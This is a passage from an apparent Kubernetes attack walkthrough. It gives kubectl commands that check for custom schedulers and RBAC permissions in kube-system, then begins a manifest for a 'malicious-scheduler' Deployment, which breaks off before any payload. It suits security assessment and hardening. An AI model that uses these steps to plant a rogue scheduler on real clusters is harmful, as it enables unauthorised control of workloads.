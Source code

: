 ## 2. Validation and Exploitation Steps Section

### Validation Phase: Identifying a Potential Vulnerability

1.  **Check for Existing Custom Schedulers:**

    ```bash
    kubectl get deployments -n kube-system | grep scheduler
    kubectl get pods -n kube-system | grep scheduler
    ```

    *   **Explanation:** This command checks for deployments and pods in the `kube-system` namespace that contain "scheduler" in their name. Custom schedulers are usually deployed in this namespace.
    *   **Why:** This helps identify if custom schedulers already exist, potentially deployed by a previous attacker or due to legitimate custom configurations.  If multiple schedulers exist, it raises suspicion.
    *   **Expected Output:**  Lists of deployments and pods related to schedulers. Look for names that are not `kube-scheduler` or that appear suspicious.
    *   **Contributes to Validation:** Indicates the presence of existing schedulers beyond the default, prompting further investigation.

2.  **Check RBAC Permissions for Scheduler Management (deployments, daemonsets, pods):**

    ```bash
    kubectl auth can-i create deployments.apps -n kube-system
    kubectl auth can-i create daemonsets.apps -n kube-system
    kubectl auth can-i create pods -n kube-system
    kubectl auth can-i create deployments.apps --as system:serviceaccount:default:default -n kube-system
    kubectl auth can-i create daemonsets.apps --as system:serviceaccount:default:default -n kube-system
    kubectl auth can-i create pods --as system:serviceaccount:default:default -n kube-system

    ```

    *   **Explanation:** This command checks if the current user and the default service account have permissions to create deployments, daemonsets, and pods in the `kube-system` namespace.
    *   **Why:**  It verifies if the current credentials (or the default service account) have excessive permissions, potentially allowing scheduler deployment.
    *   **Expected Output:** `yes` or `no` for each command, indicating whether the permission is granted.  `yes` for deployment creation in `kube-system` is a red flag.
    *   **Contributes to Validation:** Identifies overly permissive RBAC policies that could allow unauthorized deployment of a custom scheduler.

### Exploitation Phase: Deploying a Malicious Custom Scheduler

1.  **Create a Custom Scheduler Deployment Manifest (scheduler-deployment.yaml):**

    ```yaml
    apiVersion: apps/v1
    kind: Deployment
    metadata:
      name: malicious-scheduler
      namespace: kube-system
      labels:
        app: malicious-scheduler
    spec:
      replicas: 1
      selector:
        matchLabels:
          app: malicious-scheduler
      template:
        metadata:
          labels:
            app: malicious-scheduler
        spec: